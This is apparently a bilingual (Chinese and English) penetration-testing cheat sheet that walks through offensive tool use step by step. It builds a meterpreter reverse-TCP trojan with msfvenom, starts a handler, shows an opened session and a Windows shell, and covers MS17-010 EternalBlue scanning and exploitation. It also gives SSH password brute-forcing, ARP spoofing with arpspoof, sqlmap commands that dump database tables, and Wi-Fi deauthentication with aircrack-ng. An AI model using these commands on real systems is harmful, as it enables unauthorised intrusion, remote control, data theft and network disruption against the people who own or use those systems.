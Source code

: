 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 



## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```





# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发
```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。
```bash
arpspoof -i <eth0> -t <target> <host>
# -i 指定特定的网卡
# -t 目标IP
# host 网关IP
```



# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```



# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```
开启网卡监听模式

```bash
airmon-ng start wlan0
```
使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```
|符号|意义|
|------|------|
| BSSID | AP端的MAC地址 |
| PWR   | 信号强度，数字越小越好 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH | 对应路由器的所在频道 |
| ESSID | 对应路由器的名称 |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w aircrack/ --bssid <bssid> wlan0
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP address> -c <client address> wlan0
# 指定AP和客户端的地址，将其进行破解
```

